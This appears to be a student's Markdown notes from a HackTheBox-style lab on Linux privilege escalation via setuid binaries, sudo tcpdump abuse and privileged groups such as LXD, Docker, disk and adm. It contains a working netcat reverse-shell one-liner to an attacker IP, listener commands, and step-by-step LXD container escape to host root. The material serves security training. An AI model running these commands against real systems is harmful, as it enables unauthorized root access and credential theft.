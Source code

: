 # 🛩️ Permissions-based Privilege Escalation

## Special Permissions

The `Set User ID upon Execution` (`setuid`) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges

```shell-session
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them.

```
 find / -uid 0 -perm -6000 -type f 2>/dev/null
 find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

For this type of privesc it's good to know the [GTFOBins](https://gtfobins.github.io/) project is a curated list of binaries and scripts that can be used by an attacker to bypass security restrictions.

## Sudo Rights Abuse

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges.\
When landing on a system, we should always check to see if the current user has any sudo privileges by typing `sudo -l`

```shell-session
htb_student@NIX02:~$ sudo -l
<SNIP>
(root) NOPASSWD: /usr/sbin/tcpdump
```

&#x20;if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

```shell-session
htb_student@NIX02:~$ man tcpdump
<SNIP> 
-z postrorate-command   
```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. Let's  create the shell script `.test` containing a reverse shell and execute it ->

```shell-session
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

and the content of the .test file would be our reverse shell ->

```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

Now we can start our listener on our attackbox ->

```shell-session
nc -lnvp 443
```

&#x20;and run `tcpdump` as root with the `postrotate-command`.

```shell-session
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

we sould get our shell back pretty quickly:

```shell-session
ElFelixi0@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

## Privileged Groups

#### LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container

&#x20;this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) has more information on each step.

We can confirm we're in the group with the id command ->

```shell-session
devops@NIX02:~$ id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

```shell-session
unzip alpine.zip 
```

Start the LXD initialization process.

```shell-session
lxd init
```

Import the local image.

```shell-session
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system.

```shell-session
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

Finally, spawn a shell inside the container instance.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

### Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

### Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.

### ADM

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

_**Use the privileged group rights of the secaudit user to locate a flag.**_

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Went and found the /var/log file and looked at every adm group until i found one log file with the flag in it
